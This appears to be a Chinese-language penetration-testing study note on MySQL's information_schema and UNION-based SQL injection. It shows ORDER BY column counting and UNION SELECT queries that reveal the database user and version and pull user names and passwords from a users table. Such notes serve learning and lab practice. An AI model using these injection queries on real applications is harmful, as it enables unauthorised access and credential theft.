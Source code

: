 ```yaml
---
title: 渗透学习记录OS
date: 2022-12-25 22:58:29
categories: "网络安全"
tags: "网安"
---
```



## mysql默认表相关知识

在 mysql5 版本以后，mysql 默认在数据库中存放在一个叫 `infomation_schema` 里面 这个库里面有很多表 重点是这三个表 `columns 、tables、SCHEMATA` 表字段 CHEMA_NAME 记录着库的信息



columns 存储该用户创建的所有数据库的库名、标名和字段名。

## union联合注入攻击原理

> 步骤一：联合两表
>
> ​	1.union语句要求字段数一样才可以执行，所以我们要先进行字段判断
>
> 常见方法：
>
> ```mysql
> SELECT * FROM `users` WHERE user_id=1 order by 8
> ```
>
> 判断出字段数为8
>
> 然后通过
>
> ```mysql
> SELECT * FROM `users` WHERE user_id=1 union SELECT 1,2,3,4,5,6,7,8
> ```
>
> 进行联合查询

联合查询后面的语句

```mysql
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT 1,2,user()
```

select后面的数字可以替换成字段的名称或者函数

```mysql
-- 替换成mysql内置函数
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user(),md5('a'),version()
```

```mysql 
-- 替换成mysql数据库里的字段
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user_id,user,password from users
-- 也可以在语句后面加上limit限定显示的行数
SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user_id,user,password from users limit 1

SELECT * FROM guestbook WHERE `comment_id`=1 union SELECT user_id,user,password from users limit 0,2
```
